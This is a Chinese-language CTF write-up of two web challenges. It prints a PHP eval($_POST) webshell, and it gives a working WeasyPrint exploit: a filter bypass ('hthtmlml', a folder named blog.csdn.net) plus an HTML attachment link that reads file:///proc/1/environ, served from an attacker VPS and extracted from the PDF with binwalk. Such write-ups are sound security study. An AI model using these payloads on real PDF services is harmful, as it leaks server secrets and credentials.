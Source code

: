 ## 真亦假，假亦真

打开shell.php，发现是一句话，但是连不上

```php
<?php
error_reporting(0);
header('Content-Type: text/html; charset=utf-8');
highlight_file(__FILE__);

//标准一句话木马~
eval($_POST[1]);
?>
```

其实这只是Java伪造的一句话

flag路由扫一下就出来了。

## CSDN_To_PDF V1.2

python WeasyPrint 的漏洞

WeasyPrint 是一个开源的 Python 库，主要用于将 HTML 内容及其相关的 CSS 样式转换成 PDF 文档。

```python
from flask import Flask, request, jsonify, make_response, render_template, flash, redirect, url_for
import re
from flask_weasyprint import HTML, render_pdf
import os

app = Flask(__name__)

URL_REGEX = re.compile(
    r'http(s)?://'
    r'(?:[a-zA-Z]|[0-9]|[$-_@.&+]|[!*\(\),]|(?:%[0-9a-fA-F][0-9a-fA-F]))+'
)


def is_valid_url(url):
    if not URL_REGEX.match(url):
        return False
    if "blog.csdn.net" not in url:
        return False

    return True


@app.route('/', methods=['GET', 'POST'])
def CsdnToPdf():
    if request.method == 'POST':
        url = request.form.get('url')
        url = url.replace("html", "")
        if is_valid_url(url):
            try:
                html = HTML(url=url)
                pdf = html.write_pdf()
                response = make_response(pdf)
                response.headers['Content-Type'] = 'application/pdf'
                response.headers['Content-Disposition'] = 'attachment; filename=output.pdf'

                return response
            except Exception as e:
                return f'Error generating PDF', 500
        else:
            return f'Invalid URL! Target web address: ' + url
    else:
        return render_template("index.html"), 200


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

> 必须包含`blog.csdn.net`
>
> 会过滤替换字符串html
>
> 文件夹名字可以是`blog.csdn.net`

在vps上写个`test.html`

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
</head>
<body>
<link rel="attachment" href="file:///proc/1/environ">
</body>
</html>
```

payload

```
http://120.46.41.173/Jay17/blog.csdn.net/link.hthtmlml
```

拿到PDF后，`binwalk -e 文件名`

![image-20240405153709723](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240405153709723.png)